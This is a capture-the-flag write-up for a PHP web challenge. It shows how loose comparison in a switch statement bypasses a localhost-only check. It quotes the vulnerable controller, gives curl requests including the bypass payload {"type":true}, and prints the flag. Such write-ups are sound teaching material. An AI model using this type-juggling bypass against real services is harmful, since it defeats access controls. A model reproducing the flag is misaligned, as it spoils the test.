


# Juggling Facts

## The Problem

Rating: Easy

Flavor Text:
```
An organization seems to possess knowledge of the true nature of pumpkins. Can you find out what they honestly know and uncover this centuries-long secret once and for all?


```

Attachments : [web_juggling_facts.zip](web_juggling_facts.zip)


## Solution

Playing with the app and reviewing the code is fairly fast as this isnt a large amount to review.

I grab a know goold curl command as well for the api call



This one all boils down to the getfacts function that initiates the lookup and enforces the filter controllers/IndexController.php:
```
    public function getfacts($router)
    {
        $jsondata = json_decode(file_get_contents('php://input'), true);

        if ( empty($jsondata) || !array_key_exists('type', $jsondata))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
        {
            return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
        }

        switch ($jsondata['type'])
        {
            case 'secrets':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('secrets')
                ]);

            case 'spooky':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('spooky')
                ]);
            
            case 'not_spooky':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('not_spooky')
                ]);
            
            default:
                return $router->jsonify([
                    'message' => 'Invalid type!'
                ]);
        }
    }
```
posting the types to the api endpoint only defines the one API and the main form views/index.php:
```
$router = new Router();
$router->new('GET', '/', 'IndexController@index');

$router->new('POST','/api/getfacts', 'IndexController@getfacts');

```

when we try the secrets type we hit the filter
curl 'http://139.59.167.169:30660/api/getfacts' --data-raw '{"type":"secrets"}'

"$_SERVER['REMOTE_ADDR'] !== '127.0.0.1'"

this led me to think targeting the address info with X-Forwarded-For would do the trick but nothing there seemed to work:

```
curl 'http://139.59.167.169:30660/api/getfacts' \
  -H 'X-Forwarded-For: 127.0.0.1' \
  --data-raw '{"type":"secrets"}' 
```

Following up on this challenge post event I found mentions of PHP switch case juggling. As this is the hint from the title I dug deeper and eventually on [writeup](https://hotplugin.medium.com/web-challenges-hacktheboo-ctf-2022-ba619cf5dbd5) that detailed the PHP8 formating that results in:

```
"secret"=="secret"  -> true
"secret"==true      -> true
```

this means the attack payload is just:
```
curl 'http://161.35.33.243:30573/api/getfacts' --data-raw '{"type":true}'
```



## Flag
```
HTB{sw1tch_stat3m3nts_4r3_vuln3r4bl3!!!}
```

## Final Notes
